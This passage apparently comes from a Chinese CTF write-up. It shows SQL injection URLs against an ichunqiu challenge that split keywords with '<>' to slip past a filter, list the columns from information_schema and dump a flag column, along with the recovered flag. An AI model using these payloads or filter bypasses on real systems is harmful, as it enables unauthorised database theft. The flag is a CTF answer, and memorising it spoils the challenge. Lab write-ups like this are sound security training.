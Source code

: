 ![](38.png)  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">获取列名：</span><br><span class="line">	http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,group_concat(column_name),3 from info&lt;&gt;rmation_schema.columns where table_name='info'</span><br><span class="line">	列：id,title,flAg_T5ZNdrm</span><br></pre></td></tr></tbody></table>

  
![](39.png)  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">获取字段：</span><br><span class="line">	http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,group_concat(id,title,flAg_T5ZNdrm),3 from info</span><br></pre></td></tr></tbody></table>

![](40.png)  
字段：  
id:1,2  
title:flag\{在数据库中\},test  
flAg\_T5ZNdrm:flag\{6628cc6e-8930-4dd2-b1cc-a0835365010b\},test

### [](#12-SQLi "12.SQLi")12.SQLi

> 题目内容：后台有获取flag的线索
